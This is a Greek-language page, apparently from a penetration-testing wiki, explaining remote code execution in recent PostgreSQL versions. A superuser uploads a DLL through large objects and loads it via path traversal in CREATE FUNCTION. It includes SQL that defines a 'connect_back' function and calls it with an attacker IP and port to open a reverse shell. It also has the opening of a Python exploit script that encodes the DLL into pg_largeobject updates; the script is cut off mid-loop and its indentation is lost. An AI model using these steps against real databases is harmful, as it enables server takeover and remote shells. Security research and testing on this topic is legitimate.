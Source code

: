 ### RCE στις πιο πρόσφατες εκδόσεις του PostgreSQL

Στις **πιο πρόσφατες εκδόσεις** του PostgreSQL, έχουν επιβληθεί περιορισμοί όπου ο `superuser` είναι **απαγορευμένος** από το **φόρτωμα** αρχείων κοινής βιβλιοθήκης εκτός από συγκεκριμένους καταλόγους, όπως `C:\Program Files\PostgreSQL\11\lib` στα Windows ή `/var/lib/postgresql/11/lib` σε συστήματα \*nix. Αυτοί οι κατάλογοι είναι **ασφαλισμένοι** κατά των λειτουργιών εγγραφής είτε από τους λογαριασμούς NETWORK\_SERVICE είτε postgres.

Παρά αυτούς τους περιορισμούς, είναι δυνατόν για έναν αυθεντικοποιημένο `superuser` της βάσης δεδομένων να **γράψει δυαδικά αρχεία** στο σύστημα αρχείων χρησιμοποιώντας "μεγάλες αντικείμενα." Αυτή η δυνατότητα επεκτείνεται στη γραφή εντός του καταλόγου `C:\Program Files\PostgreSQL\11\data`, ο οποίος είναι απαραίτητος για τις λειτουργίες της βάσης δεδομένων όπως η ενημέρωση ή η δημιουργία πινάκων.

Μια σημαντική ευπάθεια προκύπτει από την εντολή `CREATE FUNCTION`, η οποία **επιτρέπει την περιήγηση στους καταλόγους** στον κατάλογο δεδομένων. Ως εκ τούτου, ένας αυθεντικοποιημένος επιτιθέμενος θα μπορούσε να **εκμεταλλευτεί αυτή την περιήγηση** για να γράψει ένα αρχείο κοινής βιβλιοθήκης στον κατάλογο δεδομένων και στη συνέχεια να **το φορτώσει**. Αυτή η εκμετάλλευση επιτρέπει στον επιτιθέμενο να εκτελεί αυθαίρετο κώδικα, επιτυγχάνοντας εκτέλεση εγγενών κωδικών στο σύστημα.

#### Ροή επίθεσης

Πρώτα απ' όλα, πρέπει να **χρησιμοποιήσετε μεγάλες αντικείμενα για να ανεβάσετε το dll**. Μπορείτε να δείτε πώς να το κάνετε αυτό εδώ:

{% content-ref url="big-binary-files-upload-postgresql.md" %}
[big-binary-files-upload-postgresql.md](big-binary-files-upload-postgresql.md)
{% endcontent-ref %}

Μόλις έχετε ανεβάσει την επέκταση (με το όνομα poc.dll για αυτό το παράδειγμα) στον κατάλογο δεδομένων, μπορείτε να την φορτώσετε με:
```c
create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;
select connect_back('192.168.100.54', 1234);
```
_Σημειώστε ότι δεν χρειάζεται να προσθέσετε την επέκταση `.dll` καθώς η δημιουργία της συνάρτησης θα την προσθέσει._

Για περισσότερες πληροφορίες **διαβάστε την** [**αρχική δημοσίευση εδώ**](https://srcincite.io/blog/2020/06/26/sql-injection-double-uppercut-how-to-achieve-remote-code-execution-against-postgresql.html)**.**\
Σε αυτή τη δημοσίευση **αυτός ήταν ο** [**κώδικας που χρησιμοποιήθηκε για τη δημιουργία της επέκτασης postgres**](https://github.com/sourceincite/tools/blob/master/pgpwn.c) (_για να μάθετε πώς να μεταγλωττίσετε μια επέκταση postgres διαβάστε οποιαδήποτε από τις προηγούμενες εκδόσεις_).\
Στην ίδια σελίδα δόθηκε αυτή η **εκμετάλλευση για την αυτοματοποίηση** αυτής της τεχνικής:
```python
#!/usr/bin/env python3
import sys

if len(sys.argv) != 4:
print("(+) usage %s <connectback> <port> <dll/so>" % sys.argv[0])
print("(+) eg: %s 192.168.100.54 1234 si-x64-12.dll" % sys.argv[0])
sys.exit(1)

host = sys.argv[1]
port = int(sys.argv[2])
lib = sys.argv[3]
with open(lib, "rb") as dll:
d = dll.read()
sql = "select lo_import('C:/Windows/win.ini', 1337);"
for i in range(0, len(d)//2048):
start = i * 2048
end   = (i+1) * 2048
if i == 0:
sql += "update pg_largeobject set pageno=%d, data=decode('%s', 'hex') where loid=1337;" % (i, d[start:end].hex())
else:
```